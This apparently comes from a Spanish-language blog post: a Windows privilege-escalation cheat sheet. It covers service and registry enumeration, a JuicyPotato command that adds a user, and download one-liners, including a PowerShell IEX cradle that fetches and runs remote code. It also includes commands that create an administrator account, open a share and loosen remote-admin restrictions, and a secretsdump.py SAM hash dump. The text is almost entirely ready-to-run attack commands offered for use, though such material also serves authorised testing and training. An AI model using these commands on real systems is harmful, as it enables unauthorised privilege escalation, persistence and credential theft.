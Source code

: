 ```yaml
---
layout: post
title: WindPrivesc - CheetSheat
tags: [windows,CheetSheat]
description: "WindPrivesc - CheetSheat"
---
```



## Unquoted Service Path

| argumento | descripción                                                      |
|---------  |------------------------------------------------------------------|
| findstr   | busca cadenas en los archivos                                    |
| /i        | Especifica que la búsqueda no distingue mayúsculas de minúsculas |
| /v        | Solo imprime líneas que no contienen una correspondencia         |

```
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

**sc**: Programa de línea de comandos usado para comunicarse con el Administrador de control de servicios y con los servicios.  
**qc**: Consulta la información de configuración de un servicio.

```
sc qc <service>
```

----

## AlwaysInstallElevated

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

----

## Grupos y permisos

### Accoutn operators

Otorga privilegios limitados de creación de cuentas a un usuario. Básicamente, esto puede crear y administrar usuarios y grupos en el dominio, incluida su propia membresía y la del grupo de Operadores de servidor.

[https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators)

### SeImpersonatePrivilege

- juicyPotato
- PrintSpoofer

```
JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user TEST TEST123 /add"
```

----

## Transferencia de archivos

```
powershell IEX(New-Object Net.WebClient).downloadString('<http://file>')
certutil.exe -f -urlcache -split <http://file>
IWR -uri <http://file> -OutFile <file>
```

----

## Pwned Psexec

```
cmd /c net user USERX PASSWORD /add
cmd /c net localgroup Administrators USERX /add
cmd /c net share attacker_folder=C:\Windows\Temp GRANT:Administrators,FULL
cmd /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountFilterPolicy /t REG_DWORD /d 1 /f
```

----

## Volcado de hash

```
secretsdump.py -sam SAM -system SYSTEM LOCAL
```
